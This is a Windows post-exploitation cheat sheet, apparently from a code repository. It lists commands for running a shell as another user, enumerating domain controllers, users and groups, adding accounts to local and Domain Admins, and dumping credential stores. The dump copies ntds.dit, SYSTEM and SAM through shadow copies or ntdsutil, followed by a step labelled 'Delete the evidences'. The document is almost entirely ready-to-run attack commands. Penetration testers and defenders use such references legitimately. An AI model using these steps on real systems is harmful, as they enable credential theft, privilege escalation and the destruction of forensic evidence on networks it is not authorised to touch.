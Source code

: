 # Windows Post Exploitation Cheat Sheet

## Spawn shell with given user,only for network purpose
Windows
```cmd
runas /netonly /user:domain\account cmd
```

## Useful commands

**Get Domain Controller name**
```cmd
C:\Users\User> nltest /dclist:DOMAIN
C:\Users\User> echo %LOGONSERVER%
```

**Domain Users**
```cmd
C:\Users\User> net users /domain
```

**Domain Groups**
```cmd
C:\Users\User> net groups /domain
```

**List the users of specific group**
```cmd
C:\Users\User> net groups "Domain Admins" /domain
```

**Add new user**
```cmd
C:\Users\User> net user USER PASS /add
```

**Delete user**
```cmd
C:\Users\User> net user USER /del
```

**List Local Groups**
```cmd
C:\Users\User> net localgroups
```

**Add user to Local Admin Group**
```cmd
C:\Users\User> net localgroup administrators USER /add
```

**Add user to Domain Amdins**
```cmd
C:\Users\User> net groups "Domain Admins" USER /add
```

**Account Password Policy**
```cmd
C:\Users\User> net accounts /domain
```

## HashDump with Windows Tools

+ **Shadow Copy**

1. Check if there is any Shadow Copy
```cmd
vssadmin list shadows
```

2. Create a Shadow Copy Volume
```cmd
vssadmin create shadow /for=X:  //Where X is the HDD where is the ntds.dit file
```

3. Copy ntds.dit, SYSTEM and SAM
```cmd
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\ntds\ntds.dit .
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SYSTEM .
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SAM .
```

4. Delete the evidences
```cmd
vssadmin delete shadows /for=X:
```

+ **NTDSUTIL**

```cmd
C:\>ntdsutil
ntdsutil: activate instance ntds
ntdsutil: ifm
ifm: create full c:\pentest
ifm: quit
ntdsutil: quit
```
